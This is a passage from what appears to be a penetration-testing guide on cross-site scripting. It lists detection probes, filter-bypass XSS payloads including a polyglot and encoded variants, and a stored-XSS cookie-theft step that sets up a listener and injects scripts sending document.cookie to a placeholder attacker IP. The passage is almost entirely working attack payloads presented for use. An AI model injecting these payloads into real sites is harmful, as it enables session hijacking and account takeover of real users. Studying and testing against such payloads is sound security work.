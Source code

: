 ### Step 4.1: Detection
```bash
# Basic test
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>

# In URL parameter
curl "$TARGET/search?q=<script>alert(1)</script>"
```

### Step 4.2: Filter Bypass Techniques

#### Payload List
```html
<!-- Event handlers -->
<img src=x onerror=alert(1)>
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>

<!-- SVG -->
<svg onload=alert(1)>
<svg><script>alert(1)</script></svg>

<!-- Case variation -->
<ScRiPt>alert(1)</sCrIpT>

<!-- Encoding -->
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>

<!-- Polyglot -->
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(1)//>\x3e

<!-- Protocol handlers -->
<a href="javascript:alert(1)">Click</a>
```

### Step 4.3: Steal Cookies (Stored XSS)
```javascript
// Setup receiver on your Kali
python3 -m http.server 8000

// Inject this payload
<script>
fetch('http://YOUR_KALI_IP:8000/?cookie='+document.cookie)
</script>

// Or shorter
<script>location='http://YOUR_IP:8000/?c='+document.cookie</script>
```
